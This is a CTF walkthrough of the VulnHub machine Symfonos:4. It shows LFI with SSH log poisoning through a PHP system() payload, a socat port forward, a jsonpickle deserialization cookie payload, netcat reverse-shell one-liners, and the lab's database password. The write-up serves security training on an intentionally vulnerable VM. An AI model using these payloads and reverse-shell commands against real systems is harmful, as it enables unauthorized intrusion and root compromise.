<h1 align="center" style="font-size:30px;">
  <br>
  <a href="https://www.vulnhub.com/entry/symfonos-4,347/">Symfonos:4</a>
  <br>
</h1>

<h4 align="center"> Author: <a href="https://twitter.com/zayotic/"> zayotic</a></h4>

## Nmap



Only two ports are open. We'll just start with HTTP service.

***

## HTTP


It's kinda similar to what we saw in symfonos 3.

I ran dirsearch on the website and found few pages.



The only interesting pages were `atlantis.php` and `sea.php`. Atlantis.php contained a very simple form.



I tried with basic password but it didn't worked. I tried to do some simple SQLi on the form but it didn't worked. We can run `SQLMAP` on this but that is not the right way to do it.(I know because I went down the rabbit hole)

In `sea.php` I found that the URL was something like `sea.php?file=zeus` so I tested it for LFI. I wasn't able to get the `/etc/passwd` file but it did gave the `auth.log` file.



So we can follow [this](https://www.hackingarticles.in/rce-with-lfi-and-ssh-log-poisoning/) article to get a shell by poisioning SSH log.

All we have to do is run

```bash
$ ssh '<?php system($_GET['c']); ?>'@192.168.56.115
```



Then run `msfconsole` and use `multi/script/web_delivery` and set options as said in the article I linked above.



Then run this and copy the php command it gives. And run it in the browser like `sea.php?file=../../../../var/log/auth&c=<CMD>` and this will give you the shell.



Since we had the shell now we can start looking in the system.

In `/var/www/html` folder I found creds for DB in source of `atlantis.php` file.



`root:yVzyRGw3cG2Uyt2r`

I used these to login in `mysql` and there I found creds for `admin` but it was hashed.



[@DCAU](https://twitter.com/DCAU7) told me that he already tried to crack the hash but couldn't. So I didn't even bother to go down that path.

I started looking around in the directories and found `/opt/code` which had a flask app code.



If we run `ps aux` we'll be able to see that there is `app` running on `8080` as `root`.



We can use `socat` to forward that port and then visit it from our browser.

```bash
$ socat TCP-LISTEN:5689,fork,reuseaddr tcp:127.0.0.1:8080 &
```



And If we open `/whoami` we see



Now let's take a look at the code to see what's going on

```python
cat app.py
from flask import Flask, request, render_template, current_app, redirect

import jsonpickle
import base64

app = Flask(__name__)

class User(object):

    def __init__(self, username):
        self.username = username


@app.route('/')
def index():
    if request.cookies.get("username"):
        u = jsonpickle.decode(base64.b64decode(request.cookies.get("username")))
        return render_template("index.html", username=u.username)
    else:
        w = redirect("/whoami")
        response = current_app.make_response(w)
        u = User("Poseidon")
        encoded = base64.b64encode(jsonpickle.encode(u))
        response.set_cookie("username", value=encoded)
        return response


@app.route('/whoami')
def whoami():
    user = jsonpickle.decode(base64.b64decode(request.cookies.get("username")))
    username = user.username
    return render_template("whoami.html", username=username)


if __name__ == '__main__':
    app.run()
```

There isn't much to read. We can see that it takes the cookie and see the username from it.

I googled flask pickle exploit and found [flask-json-pickle](https://github.com/VerSprite/flask-json-pickle). Even though this exact exploit didn't worked but we are sure how to do it now.

We can base64 encode the following string:

```python
{"py/object": "app.User", "username": [{"py/reduce": [{"py/type": "subprocess.call"}, {"py/tuple": ["./shell.sh"]}, null, null, null]}]}
```

Then Make a shell script in the `/opt/code` which will contain our reverse shell code:

```bash
$ echo "#!/bin/bash\nmkfifo /tmp/mylge; nc 192.168.56.1 1337 0</tmp/mylge | /bin/sh >/tmp/mylge 2>&1; rm /tmp/mylge" > shell.sh
```
Then `chmod +x shell.sh` the file so we can execute it.

Now we need to pass the base64 encoded string of that JSON to `username` in the cookie

```
eyJweS9vYmplY3QiOiAiYXBwLlVzZXIiLCAidXNlcm5hbWUiOiBbeyJweS9yZWR1Y2UiOiBbeyJweS90eXBlIjogInN1YnByb2Nlc3MuY2FsbCJ9LCB7InB5L3R1cGxlIjogWyIuL3NoZWxsLnNoIl19LCBudWxsLCBudWxsLCBudWxsXX1dfQ==
```




This will give us shell as root.



Then get the root flag.



***

The foothold on this machine isn't hard even though it's kinda hard to ignore the red herring with login form on `atlantis.php` but once we see nothing works on this the only option left is `sea.php`.

The root part was very difficult for me because I kept on using something like

```python
{"py/object": "app.User", "username": [{"py/type": "subprocess.Popen"}, {"py/tuple": ["nc -e /bin/sh 192.168.56.1 1337"]}, null, null, null]}
```
which wouldn't work and this frustated me and [@DCUA](https://twitter.com/DCAU7) but in the end [@4ndr34z](https://twitter.com/4nqr34z) saved us.

Thanks to [@zayotic](https://twitter.com/zayotic) for this machine.

***

Thanks for reading, Feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more “Writeups”.
